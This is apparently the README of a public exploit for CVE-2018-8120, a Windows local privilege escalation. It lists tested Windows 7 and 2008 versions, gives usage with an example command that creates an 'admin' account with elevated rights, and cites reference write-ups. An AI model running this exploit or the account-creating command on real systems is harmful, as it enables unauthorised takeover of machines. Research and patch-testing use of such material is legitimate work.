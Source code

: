 # CVE-2018-8120
CVE-2018-8120 Windows LPE exploit

Supports both x32 and x64.

Tested on: Win7 x32, Win7 x64, Win2008 x32, Win2008 R2 x32, Win2008 R2 Datacenter x64, Win2008 Enterprise x64.

![image](https://github.com/unamer/CVE-2018-8120/blob/master/screenshot.bmp)

## Usage
```shell
CVE-2018-8120 exploit by @unamer(https://github.com/unamer)
Usage: exp.exe command
Example: exp.exe "net user admin admin /ad"
```
## Caution
* Please exclude shellcode.asm if you wanna compile x32 version.

## Reference
* https://xiaodaozhi.com/exploit/156.html
* https://github.com/bigric3/cve-2018-8120
